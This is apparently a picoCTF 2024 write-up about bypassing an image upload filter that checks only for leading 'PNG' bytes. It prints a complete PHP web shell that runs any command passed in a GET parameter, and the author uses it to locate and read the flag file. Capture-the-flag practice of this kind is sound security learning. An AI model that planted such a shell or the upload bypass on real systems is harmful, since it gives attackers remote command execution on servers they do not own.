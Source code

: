 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#browser_webshell_solvable_<br>

I found a web app that can help process images: PNG images only!

## Solution

At first, I tried uploading a PNG file to see what happens on the website and in Burp Suite.<br>

![image](https://github.com/user-attachments/assets/65d68ea5-46d5-471b-a432-3da81d544cca)
**This is what I got from the website: it says the uploaded file is a valid PNG file. Now it is time to investigate how the system defines a PNG file.*
<br>

![image](https://github.com/user-attachments/assets/707cc9a2-1e0d-4cc9-aa22-1205b33da0e3)
**This is the result I got from Burp Suite. From the raw data shown, we can see that the system defines PNG files by checking the first few characters, "PNG".*
<br>

Hence, through observation, we can create a PHP script by adding 'PNG' as the first few characters and then insert the script into the system folder. We believe the uploaded files will be stored in the 'uploads' folder, which can be easily accessed through the site. <br>

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**This is the script that we will use. Insert this php script into a notepad and save as ***flag.png.php***. Then upload this file to the system and we'll get a successful message.*
<br>

To get use of the script inserted, we then go to the website to get the file uploaded by adding the uploaded file path ***/uploads/flag.png.php*** to the site ***http://atlas.picoctf.net:60355***. We will use this field to enter a command `find / -name '*.txt'` to list down all the txt file.<br>

![image](https://github.com/user-attachments/assets/1615bc9d-cf02-43e7-8dce-a983f9b04bd9)
**This is the list of all txt files. There is a suspicious file name, which is ***/var/www/html/GAZWIMLEGU2DQ.txt***. So I decided to open it to have a look by inputting the command `cat /var/www/html/GAZWIMLEGU2DQ.txt`.*
<br>

![image](https://github.com/user-attachments/assets/710971f2-22f1-41e2-8325-cb6f19784c64)
**Here you got the flag.*
<br>
